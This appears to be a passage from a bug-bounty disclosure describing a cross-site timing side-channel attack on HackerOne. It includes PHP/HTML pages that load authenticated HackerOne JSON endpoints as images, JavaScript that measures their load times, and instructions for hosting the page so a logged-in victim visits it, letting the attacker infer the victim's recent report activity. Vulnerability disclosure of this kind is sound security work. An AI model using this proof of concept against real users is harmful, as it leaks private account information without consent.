 ```
<?php
for ($i=0;$i<30;$i++){
echo '<img id=grr"'.$i.'" src="https://hackerone.com/programs/search.json?query=IBB&sort=published_at%3Adescending&page=1&rnd='.rand(1,5000).'">
';
}
?>
</body>
</html>
```
Same for bugs.json with following 2.php (host it, visit it logged on H1 and type `calculate_load_times()` in browser console )
```
<html>
<head>
<script>
function calculate_load_times() {
  // Check performance support
  if (performance === undefined) {
    console.log("= Calculate Load Times: performance NOT supported");
    return;
  }

  // Get a list of "resource" performance entries
  var resources = performance.getEntriesByType("resource");
  if (resources === undefined || resources.length <= 0) {
    console.log("= Calculate Load Times: there are NO `resource` performance records");
    return;
  }

  console.log("= Calculate Load Times");
  for (var i=0; i < resources.length; i++) {
    

    // Response time
    t = resources[i].responseEnd - resources[i].responseStart;
    console.log(t);

    
  }
}
</script>
</head>
<!-- https://hackerone.com/programs/search?query=test&sort=published_at%3Adescending&page=1 -->
<body>
<?php
for ($i=0;$i<30;$i++){
echo '<img id=grr"'.$i.'" src="https://hackerone.com/bugs.json?text_query=999999&subject=&sort_type=pg_search_rank&substates%5B%5D=triaged&rnd='.rand(1,5000).'">';
}
?>
</body>
</html>
```
Now having this values about the load time we can simple calculate the average time for loading for each of the `img` elements => we can calculate approximately the internet speed of the victim towards HackerOne endpoints at that moment. Having the approximate internet speed and chance for measuring time needed for load of some interesting resource we can learn from this side channel attack if victim have created report in the last few days: https://hackerone.com/bugs.json?text_query=3480&subject=&sort_type=pg_search_rank&substates%5B%5D=new
or
https://hackerone.com/bugs.json?text_query=3479&subject=&sort_type=pg_search_rank&substates%5B%5D=new
